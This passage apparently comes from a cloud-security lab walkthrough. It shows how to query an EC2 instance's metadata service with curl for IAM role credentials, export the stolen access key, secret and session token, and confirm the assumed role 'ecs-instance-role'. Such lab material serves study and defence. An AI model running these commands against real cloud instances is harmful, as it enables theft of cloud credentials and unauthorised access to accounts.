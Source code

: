 * We are now able to interact with the IMDS service for the EC2 instance and hence can now get the iam credentials for the role assumed by this instance.

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```  

![](./images/03/15.png)

* We can now export these credentials to our machine and with these credentials use the role assumed by the instance.

```bash
export AWS_ACCESS_KEY_ID=<value>
export AWS_SECRET_ACCESS_KEY=<value>
export AWS_SESSION_TOKEN=<value>
aws sts get-caller-identity
```

We have the role ``ecs-instance-role`` assumed by instance ``i-06af3faade2026b35``.

